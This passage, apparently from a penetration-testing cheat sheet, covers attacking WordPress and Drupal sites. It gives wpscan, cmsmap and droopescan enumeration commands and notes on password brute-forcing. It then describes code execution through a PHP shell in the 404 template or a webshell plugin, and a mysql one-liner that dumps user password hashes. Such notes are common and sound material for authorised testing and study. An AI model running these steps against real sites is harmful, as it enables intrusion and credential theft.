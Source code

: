 ```sh
# --random-user-agent, --rua
#     Be a bit more stealthy
# --update
#     update the WPScan database before scanning

# username / password bruteforce possible
# -U, --usernames LIST
#     LIST of usernames and/or files w/ usernames to try. e.g. admin,users.txt
#     Will auto-enum users if -U not supplied
# -P, --passwords FILE-PATH
#     path to password file for brute force

# aggressive scan:
wpscan --update \
       --url http://$VICTIM_IP/ \
       --enumerate ap,at,cb,dbe,u \
       --detection-mode aggressive \
       --random-user-agent \
       --plugins-detection aggressive \
       --plugins-version-detection aggressive

# scan with cmsmap (https://github.com/Dionach/CMSmap):
cmsmap -o cmsmap.txt -d http://$VICTIM_IP
```

Also try logging into the Wordpress admin page (`/wp-admin`).

If you can log in, you can update the page template to get code execution. Appearance → Editor → 404 Template (at the right), add a PHP shell.

After admin portal login, also try plugin upload to add a web shell/known vulnerable plugin. Remember to activate plugin after install.

[WordPress Plugin Webshell](https://github.com/p0dalirius/Wordpress-webshell-plugin) - accessible via `/wp-content/plugins/wp_webshell/wp_webshell.php?action=exec&cmd=id`

Maybe upload Media file that has PHP script?

Post exploit: The `wp-config.php` file contains information required by WordPress to connect to the database (credentials).

```bash
# Extract usernames and passwords:
mysql -u USERNAME --password=PASSWORD -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Check [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress) for more.


### 4.5.9. Drupal

```sh
droopescan scan drupal http://$VICTIM_IP -t 32 # if drupal found
```

